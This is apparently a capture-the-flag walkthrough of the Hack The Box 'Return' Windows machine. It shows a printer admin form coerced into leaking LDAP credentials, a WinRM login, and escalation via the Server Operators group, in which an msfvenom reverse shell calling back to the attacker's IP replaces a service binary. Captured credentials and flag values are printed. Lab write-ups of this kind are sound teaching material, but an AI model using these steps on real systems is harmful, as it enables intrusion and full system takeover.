



+++
title = "Return"
date = "2024-02-06"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-07-28

**Created by**: [MrR3boot](https://app.hackthebox.com/users/13531)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.9`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.108`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Return using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.108" -p-
```

```
<SNIP>
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49731/tcp open  unknown
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.108" --top-ports "500"
```

```
<SNIP>
PORT     STATE         SERVICE
53/udp   open          domain
88/udp   open          kerberos-sec
123/udp  open          ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
389/udp  open|filtered ldap
464/udp  open|filtered kpasswd5
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.108" -p "53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001" -sV
```

```
<SNIP>
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-04 15:43:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.11.108" -p "53,88,123,137,138,389,464,500,4500,5353,5355" -sV
```

```
<SNIP>
PORT     STATE         SERVICE      VERSION
53/udp   open          domain       (generic dns response: SERVFAIL)
88/udp   open          kerberos-sec Microsoft Windows Kerberos (server time: 2024-02-04 15:43:57Z)
123/udp  open          ntp          NTP v3
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
389/udp  open|filtered ldap
464/udp  open|filtered kpasswd5
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr
<SNIP>
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Return is running Windows, and that
its hostname is `PRINTER`.

Based on the open ports we found, it may also be a DC.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.108" -p "53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001" -sC
```

```
<SNIP>
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm

Host script results:
|_clock-skew: 18m33s
| smb2-time: 
|   date: 2024-02-04T15:46:21
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.11.108" -p "53,88,123,137,138,389,464,500,4500,5353,5355" -sC
```

```
<SNIP>
PORT     STATE         SERVICE
53/udp   open|filtered domain
88/udp   open          kerberos-sec
123/udp  open          ntp
| ntp-info: 
|_  
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
389/udp  open|filtered ldap
464/udp  open|filtered kpasswd5
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr

Host script results:
|_clock-skew: 18m43s
<SNIP>
```

The `http-title` script detected that the website's homepage title is 'HTB
Printer Admin Panel'.

## Services enumeration

### SMB

#### Exploring the shares

Let's try to list the SMB shares with a NULL session, since we have no
credentials at our disposal.

```sh
❯ smbclient -L "//10.10.11.108" -N
```

```
<SNIP>
        Sharename       Type      Comment
        ---------       ----      -------
<SNIP>
```

It found none!

#### Known vulnerabilities

Exploring the content of the SMB server proved to be unsuccessful. But maybe
it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.11.108" -p "445" --script "vuln"
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
<SNIP>
```

It isn't.

### IIS

#### Fingerprinting

Let's use `whatweb` to fingerprint IIS's homepage.

```sh
❯ whatweb -a3 "http://10.10.11.108/" -v
```

```
WhatWeb report for http://10.10.11.108/
Status    : 200 OK
Title     : HTB Printer Admin Panel
IP        : 10.10.11.108
Country   : RESERVED, ZZ

Summary   : HTML5, HTTPServer[Microsoft-IIS/10.0], Microsoft-IIS[10.0], PHP[7.4.13], Script, X-Powered-By[PHP/7.4.13]

Detected Plugins:
[ HTML5 ]
        HTML version 5, detected by the doctype declaration 


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        String       : Microsoft-IIS/10.0 (from server string)

[ Microsoft-IIS ]
        Microsoft Internet Information Services (IIS) for Windows 
        Server is a flexible, secure and easy-to-manage Web server 
        for hosting anything on the Web. From media streaming to 
        web application hosting, IIS's scalable and open 
        architecture is ready to handle the most demanding tasks. 

        Version      : 10.0
        Website     : http://www.iis.net/

[ PHP ]
        PHP is a widely-used general-purpose scripting language 
        that is especially suited for Web development and can be 
        embedded into HTML. This plugin identifies PHP errors, 
        modules and versions and extracts the local file path and 
        username if present. 

        Version      : 7.4.13
        Google Dorks: (2)
        Website     : http://www.php.net/

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 


[ X-Powered-By ]
        X-Powered-By HTTP header 

        String       : PHP/7.4.13 (from x-powered-by string)

HTTP Headers:
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=UTF-8
        Server: Microsoft-IIS/10.0
        X-Powered-By: PHP/7.4.13
        Date: Sun, 04 Feb 2024 15:51:02 GMT
        Connection: close
        Content-Length: 28274
```

It also reveals that this website is using PHP version `7.4.13`.

#### Exploration

Let's browse to `http://10.10.11.108/`.



This is an administrator panel for an HTB printer.

The only web page we have access to (aside from the homepage) is `/settings.php`:



We land on a settings page with a form. We have the possibility of modifying the
server address, server port, username and password of an unknown service.

I tried editing all the fields, but nothing happened.

#### Under the hood

In fact, when we change a setting, a POST request is sent to `/settings.php`
with an `ip` POST parameter set to the value of the IP form field.

Therefore, we can assume that we're not actually able to edit the other fields.
It's not clear what this web page is used for... maybe it's used to
automatically log in to the specified IP using the port, username and password
in the form, and change something?

I also tried inspecting the HTML code to see if the password was written in
cleartext, but unfortunately it isn't.

#### Obtaining credentials

If our theory is right, the system logs in to the specified IP and the port
`389` (corresponding to LDAP) using the credentials in the form, which we can't
access. However, we're able to edit the IP the system connects to! If we enter
our own IP, maybe it will try to log in to it, hence disclosing the hidden
credentials?

Let's try this!

I'll open a listener on my own machine on port `389`:

```sh
❯ nc -lvnp "389"
```

Then I'll send a POST request to `settings.php` with the IP set to my own.

```sh
❯ curl -s -o "/dev/null" "http://10.10.11.108/settings.php" -X "POST" --data-urlencode "ip=10.10.14.9"
```

If we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.108] 56961
0*`%return\svc-printer�
                       1edFg43012!!
```

We did receive a connection!

However, it's a bit gibberish and the credentials aren't clear. Therefore, I'll
start a capture of all the incoming traffic on my `tun0` interface:

```sh
❯ tcpdump -i "tun0" -w "/workspace/traffic.pcap"
```

Then, I'll resend the POST request to coerce the target machine to connect to my
own.

If we open the PCAP file, we find an LDAP bind request corresponding to the IP
and the port used for the authentication.



Therefore, the credentials are `svc-printer`:`1edFg43012!!`!

## Foothold (WinRM)

Let's try these credentials to connect to Return over WinRM.

```sh
❯ evil-winrm -i "10.10.11.108" -u "svc-printer" -p '1edFg43012!!'
```

```
<SNIP>
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

It worked. Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `svc-printer` (obviously).

### Architecture

What is Return's architecture?

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Return.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows Server 2019 Standard
CurrentBuildNumber : 17763
```

In fact, it's Windows Server 2019 Standard build `17763`.

### Hotfixes

Let's retrieve the list of installed hotfixes.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-HotFix | Select-Object -ExpandProperty "HotFixID"
```

```
Access denied
```

We encounter an error.

### Users

Let's enumerate all users using `PowerView`.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-NetLocalGroupMember -GroupName "Users" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName          SID
----------          ---
RETURN\Domain Users S-1-5-21-3750359090-2939318659-876128439-513
```

There's only the domain users.

What about the administrators?

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-NetLocalGroupMember -GroupName "Administrators" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName               SID
----------               ---
RETURN\Administrator     S-1-5-21-3750359090-2939318659-876128439-500
RETURN\Enterprise Admins S-1-5-21-3750359090-2939318659-876128439-519
RETURN\Domain Admins     S-1-5-21-3750359090-2939318659-876128439-512
```

Again, we only find the built-in `Administrator` and the domain
`Enterprise Admins` and `Domain Admins`.

### Groups

Let's enumerate all groups, once again using `PowerView`.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-NetLocalGroup | Select-Object "GroupName", "Comment" | Format-Table -AutoSize
```

```
GroupName                               Comment
---------                               -------
Server Operators                        Members can administer domain servers
Account Operators                       Members can administer domain user and group accounts
Pre-Windows 2000 Compatible Access      A backward compatibility group which allows read access on all users and groups in the domain
Incoming Forest Trust Builders          Members of this group can create incoming, one-way trusts to this forest
Windows Authorization Access Group      Members of this group have access to the computed tokenGroupsGlobalAndUniversal attribute on User objects
Terminal Server License Servers         Members of this group can update user accounts in Active Directory with information about license issuance, for the purpose of tracking and reporting TS Per User CAL usage
Administrators                          Administrators have complete and unrestricted access to the computer/domain
Users                                   Users are prevented from making accidental or intentional system-wide changes and can run most applications
Guests                                  Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
Print Operators                         Members can administer printers installed on domain controllers
Backup Operators                        Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Replicator                              Supports file replication in a domain
Remote Desktop Users                    Members in this group are granted the right to logon remotely
Network Configuration Operators         Members in this group can have some administrative privileges to manage configuration of networking features
Performance Monitor Users               Members of this group can access performance counter data locally and remotely
Performance Log Users                   Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Distributed COM Users                   Members are allowed to launch, activate and use Distributed COM objects on this machine.
IIS_IUSRS                               Built-in group used by Internet Information Services.
Cryptographic Operators                 Members are authorized to perform cryptographic operations.
Event Log Readers                       Members of this group can read event logs from local machine
Certificate Service DCOM Access         Members of this group are allowed to connect to Certification Authorities in the enterprise
RDS Remote Access Servers               Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing deployments, these servers are typically deployed in an edge network. Thi...
RDS Endpoint Servers                    Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This group needs to be populated on servers running RD Connection Broker. RD Se...
RDS Management Servers                  Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be populated on all servers in a Remote Desktop Services deployment. The serv...
Hyper-V Administrators                  Members of this group have complete and unrestricted access to all features of Hyper-V.
Access Control Assistance Operators     Members of this group can remotely query authorization attributes and permissions for resources on this computer.
Remote Management Users                 Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Storage Replica Administrators          Members of this group have complete and unrestricted access to all features of Storage Replica.
Cert Publishers                         Members of this group are permitted to publish certificates to the directory
RAS and IAS Servers                     Servers in this group can access remote access properties of users
Allowed RODC Password Replication Group Members in this group can have their passwords replicated to all read-only domain controllers in the domain
Denied RODC Password Replication Group  Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain
DnsAdmins                               DNS Administrators Group
```

### NICs

Let's gather the list of connected NICs.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : printer
   Primary Dns Suffix  . . . . . . . : return.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : return.local
                                       htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-C6-13
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::23c(Preferred)
   Lease Obtained. . . . . . . . . . : Sunday, February 4, 2024 7:31:00 AM
   Lease Expires . . . . . . . . . . : Sunday, February 4, 2024 9:01:00 AM
   IPv6 Address. . . . . . . . . . . : dead:beef::d8f7:4c35:fd7b:2735(Preferred)
   Link-local IPv6 Address . . . . . : fe80::d8f7:4c35:fd7b:2735%10(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.108(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:1014%10
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-51-65-D5-00-50-56-B9-C6-13
   DNS Servers . . . . . . . . . . . : ::1
                                       1.1.1.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb
```

There's only an Ethernet interface.

## System enumeration

### Flags

If we check our Desktop folder, we find the user flag.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-Content "C:\Users\svc-printer\Desktop\user.txt"
```

```
ac5e92abe7868730f14987c2fde8eda7
```

### Access tokens

Let's retrieve the groups associated with our current access token.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
```

The 'Server Operators' domain group is particularly interesting.

> Members of the Server Operators group can take the following actions: sign in
> to a server interactively, create and delete network shared resources, start
> and stop services, back up and restore files, format the hard disk drive of
> the computer, and shut down the computer.
>
> — [Microsoft](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators)

## Privilege escalation (Privileged security group)

Members of Active Directory's 'Server Operators' security group can modify,
start and stop any services, including privileged ones. This allows an attacker
to get RCE with the service's privileges.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to create a reverse shell binary.

```sh
❯ msfvenom -p "windows/x64/powershell_reverse_tcp" LHOST="10.10.14.9" LPORT="9001" -f "exe" -o "/workspace/server/revshell.exe"
```

I'll transfer it to Return.

We also need to identify a target service.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services
```

```
Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

I'll choose `VMTools`, since it's a privileged service.

### Exploitation

Let's start by stopping `VMTools`.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop "VMTools"
```

```
SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Then, let's change the path of this service to our reverse shell binary.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config "VMTools" binpath="C:\tmp\revshell.exe"
```

```
[SC] ChangeServiceConfig SUCCESS
```

Finally, let's start it.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start "VMTools"
```

```
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

We get an error message. But if we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.108] 58836
<SNIP>
PS C:\Windows\system32>
```

It caught the reverse shell!

## System enumeration

If we run `whoami`, we see that we're `NT AUTHORITY\SYSTEM`!

### Flags

As usual, we can find the root flag in our home folder.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\Administrator\Desktop\root.txt"
```

```
5fa43e110b22ca43d2a4bde49e86b19d
```

# Afterwords


That's it for this box! 🎉

I rated both the user and root flags as 'Easy' to obtain. I had a bit of trouble
getting the foothold, as I was too focused on changing all the fields of the
form instead of focusing on the IP. Once I got the idea of entering my own IP,
it was very easy to obtain though. The privilege escalation was straightforward
to identify, but the resources online regarrding its exploitation are scarce.

Thanks for reading!
